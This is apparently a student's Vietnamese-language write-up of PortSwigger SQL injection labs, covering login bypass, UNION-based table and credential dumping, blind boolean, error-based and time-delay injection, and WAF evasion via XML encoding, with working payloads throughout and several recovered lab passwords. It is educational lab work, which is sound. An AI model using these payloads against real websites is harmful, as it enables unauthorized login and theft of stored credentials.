

# PortSwigger lab - SQLi - AnhHT_HUST

**Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data**

Tổng quan trang web: 

- Web bán hàng online, cho phép **search** hàng theo **category**
- Khi nhấn vào các category (ví dụ Gifts) → gửi 1 GET request với tham số category=Gifts → tham số có thể được trích xuất để truyền vào SQL query (SELECT * FROM items WHERE category = ‘’)

Khai thác: 

- Thử truyền tham số category = hehe%27%20OR%201%3D1%2D%2D. Sau khi decode từ URL sẽ thu được hehe’ OR 1=1—
- Nếu giả thiết về dạng SQL query là đúng, ta có truy vấn tới server như sau:

SELECT * FROM items WHERE category = ‘hehe’ OR 1=1—’

Giả thiết này là đúng vì sau khi truyền tham số như trên em đã giải được lab 

- Category hẳn được lưu như 1 xâu (varchar) nên khi truy vấn sẽ cần đóng nháy đơn (’Gifts’). Do đó sau category rác được truyền vào (hehe) cần đóng nháy đơn
- OR 1=1 : 1=1 luôn đúng nên OR 1=1 là OR với một biểu thức luôn đúng → cả đoạn WHERE là đúng → câu truy vấn trả về tất cả sản phẩm
- Đoạn — ở cuối dùng để biến dấu nháy đơn ở cuối thành comment

**Lab: SQL injection vulnerability allowing login bypass**

Tổng quan:

- Không còn phần category như lab trước, vì lab này mục tiêu là vượt qua bước xác minh người dùng
- Nếu chưa đăng nhập, nhấn vào My account sẽ redirect user tới trang đăng nhập
- Trang đăng nhập yêu cầu 2 trường Username và Password. Áp dụng giả thiết như trên, SQL query có thể có dạng:
    
    SELECT …. FROM users WHERE username=’’ AND password=’’
    

Khai thác:

- Áp dụng tư duy của lab trước, ta cần biến khối WHERE trả về true mặc dù username và password truyền vào là sai bét
- Username và password sẽ lưu như xâu nên cần chủ động đóng nháy đơn trong đoạn dữ liệu khai thác để chèn tiếp câu lệnh logic
- Phần kiểm tra password thực sự trông ngứa mắt → em quyết định thử dùng — để đưa đoạn kiểm tra AND password….. về hư vô
- Em nhập vào trường username: hoangtrunganh' OR 1=1—
- Câu lệnh SQL query khi bị khai thác:
    
    SELECT …. FROM users WHERE username=’hoangtrunganh’ OR 1=1—’ AND password=’hehehe’
    
- Như dự tính, đoạn OR 1=1— khiến câu lệnh WHERE trả về true và đoạn kiểm tra password biến thành comment
- Em đăng nhập thành công vào tài khoản admin → Giả thiết của em là server trả về token cho tài khoản đầu tiên khớp với truy vấn. Mà khai thác như trên trả về tất cả account + ở nhiều server tài khoản admin được tạo đầu tiên và lưu ở đầu bảng → em cầm được acc admin và endgame.

**Lab: SQL injection attack, querying the database type and version on Oracle**

Tổng quan:

- Lab yêu cầu truy vấn ra phiên bản của Oracle được sử dụng
- Web bán hàng như bình thường, cho phép lọc sản phẩm theo category → truyền tham số vào category là phương tiện có thể khai thác

Khai thác

- Câu lệnh Select BANNER from v$version giúp truy vấn ra phiên bản của Oracle
- Sử dụng UNION để khiến server truy vấn thêm theo ý của mình
- Truyền vào category: category=%27%20UNION%20SELECT%20BANNER%2C%20FROM%20V%24VERSION%2D%2D
- Thu được:

Select …. FROM items WHERE category=’’ UNION select BANNER from v$version

- Nhưng mà lại gây ra Internal Server Error. Sau khi tìm hiểu thì em nhận ra: muốn UNION thì câu lệnh select BANNER …. cần thỏa mãn tính khả hợp, tức số cột mà 2 câu lệnh trả về giống nhau. Website cho biết tên và mô tả sản phẩm, tức câu query gốc trả về 2 cột → cần bổ sung, null để thu được:
- Select name, description FROM items WHERE category=’’ UNION select BANNER, null from v$version
- Lab được giải thành công

**Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft**

Tổng quan:

- Tương tự lab trước, nhưng khai thác trên MySQL và Microsoft SQL Server

Khai thác:

category=%27%20UNION%20SELECT%20%40%40version%2C%20%27abc%27%2D%2D%20

→ SELECT name, description FROM items WHERE category=’’ UNION SELECT @@version, ‘abc’#

**Lab: SQL injection attack, listing the database contents on non-Oracle databases**

Tổng quan:

- Web vẫn có phần category có thể khai thác phục vụ cho SQLi

Khai thác:

- Em thử category=%27%20UNION%20SELECT%20%27abc%27%2C%27def%27%2D%2D
Tức SELECT name, description FROM items WHERE category=’’ UNION SELECT ‘abc’, ‘def’—

Payload này ra kết quả → chứng tỏ : query gốc trả về 2 cột, và DB đang dùng là Postgre hoặc Microsoft

- Tiến hành DB reconaissance:

category=%27%20UNION%20SELECT%20table%5Fname%2C%20null%20FROM%20information%5Fschema%2Etables%2D%2D

→ ‘ UNION SELECT table_name, null FROM information_schema.tables—

- Đây khả năng là nơi chứa thông tin user:

- Tiếp tục tìm thông tin về các cột của bảng này:

category=%27%20UNION%20SELECT%20column%5Fname%2C%20null%20FROM%20information%5Fschema%2Ecolumns%20WHERE%20table%5Fname%3D%27users%5Fvqymdo%27%2D%2D

→' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users_vqymdo'—

- Thu được:

- Chốt sổ :

category=%27%20UNION%20SELECT%20username%5Fnqilzh%2C%20password%5Fubmmtn%20FROM%20users%5Fvqymdo%2D%2D

→ ' UNION SELECT username_nqilzh, password_ubmmtn FROM users_vqymdo—

**Lab: SQL injection attack, listing the database contents on Oracle**

Tổng quan: Y hệt lab trước, nhưng mà trên Oracle

Khai thác:

Lấy thông tin về các bảng: ' UNION SELECT OWNER, TABLE_NAME FROM all_tables—

→ %27%20UNION%20SELECT%20OWNER%2C%20TABLE%5FNAME%20FROM%20all%5Ftables%2D%2D

- Khai thác từ bảng USERS_JRVMVM: ' UNION SELECT COLUMN_NAME, null FROM all_tab_columns WHERE table_name = 'USERS_JRVMVM'—

→ category= %27%20UNION%20SELECT%20COLUMN%5FNAME%2C%20null%20FROM%20all%5Ftab%5Fcolumns%20WHERE%20table%5Fname%20%3D%20%27USERS%5FJRVMVM%27%E2%80%94

- Chốt hạ: ' UNION SELECT PASSWORD_WUWHZJ, USERNAME_MUUYGC FROM USERS_JRVMVM—

→ category=%27%20UNION%20SELECT%20PASSWORD%5FWUWHZJ%2C%20USERNAME%5FMUUYGC%20FROM%20USERS%5FJRVMVM%2D%2D

**Lab: SQL injection UNION attack, determining the number of columns returned by the query**

Tổng quan:

- Web vẫn có lỗ hổng SQLi ở phần lọc sản phẩm theo category

- Tuy nhiên với mỗi danh mục hàng lại có nhiều thông tin hơn. Như vậy cần xác định số cột mà câu truy vấn gốc trả về để có thể xây dựng câu truy vấn khai thác phù hợp, đảm bảo tính khả hợp
- Nhiệm vụ: dùng UNION để chèn thêm câu truy vấn, khai thác thông tin về bảng user

Khai thác:

- category=%27%20UNION%20SELECT%20null%2Cnull%2Cnull%2D%2D

→ ' UNION SELECT null,null,null—

- Câu lệnh UNION thực hiện thành công khi **kết quả trả về từ query gốc** có **số cột trùng** với số cột trả về từ **câu truy vấn khai thác ,** cũng như miền dữ liệu của các cột tương ứng giống nhau (tính khả hợp)
- SELECT 1 hàng với số null tăng dần 1, 2, 3,… cho đến khi không xảy ra Internal Server Error. Số lượng null chính là số cột trả về từ query gốc

**Lab: SQL injection UNION attack, finding a column containing text**

Tổng quan:

- Vẫn web cũ, nhưng cần xác định cột chứa chữ, dạng ‘string’,
- Nhiệm vụ là chèn thêm một câu truy vấn khai thác (sử dụng UNION) sao cho đảm bảo tính khả hợp

Khai thác:

- Giả sử câu query gốc:

SELECT id, name, description, price FROM products WHERE category =….

trả về các cột: **id** với kiểu dữ liệu **numeric**, **name** và **description** trả về **string**, **price** trả về **float**

thì phép hợp (UNION) với kết quả của câu truy vấn sau sẽ thực hiện được vì đảm bảo tính khả hợp:

SELECT 1, ‘AnhHT’, ‘HUST’, 83.86 

- Như ở lab trước, ta đã nhận ra câu truy vấn gốc trả về 3 cột. Dựa vào thông tin hiển thị trên web, ta có phỏng đoán 3 cột này gồm:
    - id (numeric) (khi di chuột vào view details sẽ hiện ra link tới chi tiết sản phẩm đó, truyền sẵn tham số productId)
    - name (string)
    - price (float)
    

- Như vậy chúng ta xây dựng truy vấn khai thác như sau:

category=%27%20UNION%20SELECT%20null%2C%271CUh46%27%2Cnull—

→ ' UNION SELECT null,'1CUh46',null—

(xâu ‘1CUh46’ là xâu được yêu cầu bởi lab trong quá trình khai thác)

**SQL injection UNION attack, retrieving data from other tables**

Tổng quan:

- Web bán hàng quen thuộc, với việc lọc sản phẩm theo category dẫn đến truy vấn SQL và lỗ hổng SQLi
- **' UNION SELECT null, null--** chạy tốt → Truy vấn gốc trả về 2 cột thông tin cho mỗi sản phẩm
- Xác định tiếp được server sử dụng Postgre:

Khai thác:

- Truy tìm thông tin về bảng user trong DB:

**' UNION SELECT table_name, null FROM information_schema.tables--**

- Truy tìm thông tin các cột của bảng user:

- Khai thác username và password:

category=%27%20UNION%20SELECT%20username%2C%20password%20FROM%20users%2D%2D

- Đăng nhập với acc admin là xong lab!

**Lab: SQL injection UNION attack, retrieving multiple values in a single column**

Tổng quan:

- Web bán hàng, hiển thị danh mục hàng bao gồm tên và link chi tiết sản phẩm (productId)
- Confirm được query gốc trả về 2 cột

- DB được dùng là Postgre: Cần phán đoán rằng query trả về productId (numeric) trước rồi name sau để thiết kế câu lệnh khai thác đảm bảo khả hợp

Khai thác:

- UNION SQLi attack: dùng UNION hợp kết quả truy vấn ban đầu với kết quả truy vấn một bảng ngoài (truy vấn password từ users)
- Vì ta đã nắm được cột thứ nhất được trả về là productId (numeric) nên SELECT riêng 1 số tự nhiên để đảm bảo khả hợp
- category=%27%20UNION%20SELECT%20120%2C%20password%20FROM%20users%2D%2D

**Lab: Blind SQL injection with conditional responses**

Tổng quan: 

- Web bán hàng hiển thị sản phẩm , có thể hiển thị theo danh mục. Tuy nhiên tham số category không còn là đối tượng SQLi
- Web có đưa cho người dùng cookie (TrackingID)

- Sau lần đầu truy cập, mỗi lần gửi request mới, sẽ tạo SQL query kiểm tra TrackingId xem người dùng là ai. Nếu truy vấn trả về kết quả (tức người dùng hợp lệ đang truy cập), sẽ hiện Welcome back!

- Nếu ta thử sửa TrackingId như này

→ query kiểm tra cookie sẽ không trả về kết quả → không hiện Welcome back

Khai thác:

- SQLi xảy ra khi kiểm tra TrackingId. Ta có thể giả thiết SQL query như sau:

SELECT username FROM …… WHERE TrackingId = ‘${TrackingId}’

- Nếu câu truy vấn trên trả về kết quả khác null → Hiện Welcome back!
- Ý tưởng ở đây là hỏi DB các câu hỏi Đúng/Sai. Giả sử ta có thể inject sao cho truy vấn như sau:

SELECT username FROM ….. WHERE TrackingId = ‘${TrackingId)’ AND (SELECT ‘a’ FROM users WHERE user=’administrator’ AND length(password)=1) = ‘a’

Nếu độ dài password của admin thực sự bằng 1 thì khối subquery sẽ trả về kí tự ‘a’. Mà ‘a’=’a’ → true nên cả khối WHERE ở ngoài sẽ trả về true (dĩ nhiên là chúng ta sẽ không sửa TrackingId như làm ở trên) 

→ SELECT được user → hiện Welcome back!

Ngược lại, nếu password admin độ dài khác 1 → chữ ‘a’ sẽ không được trả về → false → không hiện Welcome back!

- Sử dụng ý tưởng này để dò ra từng kí tự một của admin password:
    - Ứng dụng cơ chế Intruder của BurpSuite
    
    Chuẩn bị payload
    
    
    
    Xây dựng truy vấn khai thác: Bản chất là hỏi DB câu hỏi : Kí tự thứ k của password admin có phải là a hoặc b hoặc c…. ?
    
    
    
    Chạy Intruder 
    
    
    
    Ta thấy kí tự m trả về response có độ dài dài hơn các response còn lại. Điều này là vì m là kí tự đầu tiên của password admin → query trả về kết quả → hiện thêm chữ Welcome back!
    
    Thử như vậy cho các kí tự thứ 2, 3,… đến kí tự thứ k mà response Welcome back lại hiện ra ở kí tự rỗng → password đã hoàn thành
    

password: miomsyz1bkp4sbzjtxgn

**Lab: Blind SQL injection with conditional errors**

Tổng quan:

- Web tương tự lab trước tuy nhiên sẽ không hiện welcome back nếu thỏa mãn điều kiện nữa → tạo ra lỗi

Khai thác: 

- Câu lệnh tạo ra lỗi khi thỏa mãn điều kiện (ví dụ kí tự thứ k trong password là chữ ?) trong Oracle DB

SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual

- Payload: Nếu đúng là kí tự thứ k trong password là …. thì DB sẽ thực hiện TO_CHAR(1/0) gây ra lỗi chia cho 0 → mã response 500

password: lypdxua1j1lvco0z7i4p

**Lab: Visible error-based SQL injection**

Tổng quan: 

- Nhiệm vụ khai thác tương tự lab trước, tuy nhiên ở lab này lỗi được in rõ ra.

- Có vẻ lab này giới hạn lượng kí tự lấy từ cookie. Bằng chứng là payload như ở lab trước bị cắt nửa chừng như trên

Khai thác: (Em diễn giải lại solution của họ )

- Ý tưởng ở đây: vì lỗi hiện rõ nên ta hoàn toàn có thể cố tình tạo ra lỗi và lừa DB in ra password khi in chi tiết lỗi
- Cần in ra password bên trong lỗi nên không cần hướng tới các lỗi fatal như ở lab trước → có thể hướng tới các lỗi về kiểu dữ liệu
- Password là 1 xâu, nếu CAST AS int sẽ gây lỗi và in ra rằng 1 xâu như password không thể chuyển thành số nguyên
- Thử payload: hy7W8U6bVUqxFYvD' AND 1=CAST((SELECT password FROM users WHERE username='administrator') AS int)— → cần rút gọn

- Tiến hành bỏ cookie ban đầu đi

→ có vẻ payload vẫn hơi dài, bị cắt xén nên xảy ra syntax error

- Thử LIMIT 1 để rút ngắn thay vì khối WHERE:

→ thành công! Admin thường là tài khoản tạo ra đầu tiên nên cũng sẽ là acc đầu tiên được trả về

**Lab: Blind SQL injection with time delays**

Tổng quan:

- Yêu cầu: Khai thác SQLi để tạo trễ thời gian (gọi câu lệnh Sleep)

Khai thác:

- Thử lần lượt các câu lệnh Sleep của MySQL, Oracle, SQL Server và PostgreSQL, ta thấy website delay 10s mới trả về kết quả khi sử dụng câu lệnh Sleep của PostgreSQL:

**Lab: Blind SQL injection with time delays and information retrieval**

Tổng quan:

- Test thử với câu lệnh pg_sleep(10) thấy delay 10s → PostgreSQL
- Yêu cầu leak ra password của admin

Khai thác:

- Tạo điều kiện kiểm tra xem kí tự thứ k của password? Nếu true sẽ cho delay 10s → quan sát delay để phát hiện kí tự đúng
- Payload:

Kí tự b cho ra thời gian phản hồi lâu rõ rệt → đây là kí tự đầu tiên của password → điều kiện đúng → sleep 10s

password: s6rwwjo8emde64r7f7kw

**Lab: SQL injection with filter bypass via XML encoding**

Tổng quan:

- Một số website sẽ có WAF ngăn chặn payload có dấu hiệu SQLi
- Website được cho không có filter theo category, không có track cookie riêng, nhưng vẫn có mục My account cho phép đăng nhập. Cần khai thác ra password admin để truy cập
- Có các mục xem chi tiết product
- Điểm mới: Có một combo box cho phép xem stock tại các thành phố:

- Khi nhấn chọn 1 thành phố và Check stock thì client sẽ gửi 1 POST request, với data là 1 đối tượng XML chứa mã thành phố và mã sản phẩm:

→ Khả năng chúng ta sẽ dùng thủ thuật XML encoding tại đây

- Giả thiết câu lệnh truy vấn:

SELECT quantity FROM ….. WHERE productId={%productId} AND storeId= 

→ inject SQL query vào productId

Khai thác:

- Trước hết, nếu khai thác theo kiểu truyền thống

→ lộ ngay: 

- SQLi như bình thường, nhưng các từ khóa “nhạy cảm” như SELECT, UNION, OR, —, dấu cách sẽ được mã hóa theo XML để vượt mặt WAF
- productId = 1 UNION SELECT version()— → XML Encoding 1 số kí tự thành:

→ sau inject confirm được PostgreSQL :

- Tiếp tục dùng UNION attack để lấy thông tin về các bảng, kết hợp mã hóa 1 số kí tự sử dụng XML encoding để né WAF

→ bảng users: 

- UNION attack để lấy thông tin về các cột trong bảng users:

→ thu được các cột username và password:

- UNION attack để select nốt password của administrator:

→ Khai thác thành công:

[PDF LLM Fuzzing - Thesis K64](https://www.notion.so/PDF-LLM-Fuzzing-Thesis-K64-2273f112f5fb80679b4ef8ce2510ac94?pvs=21)